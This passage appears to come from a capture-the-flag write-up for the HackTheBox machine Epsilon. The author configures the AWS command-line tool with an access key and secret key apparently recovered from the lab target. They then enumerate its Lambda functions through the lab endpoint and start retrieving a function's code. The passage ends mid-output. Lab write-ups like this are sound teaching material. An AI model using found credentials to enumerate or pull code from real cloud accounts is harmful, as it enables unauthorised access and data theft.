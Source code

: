  That's way better, now we have all the information we need to play with **AWS** using the command line tool **aws** (```sudo apt instal awscli```).

 First we have to configure it:
 ```bash
 ❯ aws configure

AWS Access Key ID [****************6TDC]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [****************Fo1A]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [us-east-1]: us-east-1
Default output format [json]: json
```

Now we can start exploring.

We earlier saw some code about lambda functions, running **aws help** we find a way to list them:

We have to specify the **endpoint url** so it connects to the machine and not the actual AWS, so we will add this to the **/etc/hosts**.

```bash
❯ aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2022-07-07T01:52:40.856+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "a53bc9e0-7b29-4726-b0c1-3d75d452321f",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```

There's one function, we can get its code finding its location that's why we use **get-function**:
```bash
❯ aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb
{
    "Configuration": {
        "FunctionName": "costume_shop_v1",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
        "Runtime": "python3.7",
        "Role": "arn:aws:iam::123456789012:role/service-role/dev",
        "Handler": "my-function.handler",
        "CodeSize": 478,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2022-07-07T01:52:40.856+0000",
        "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
```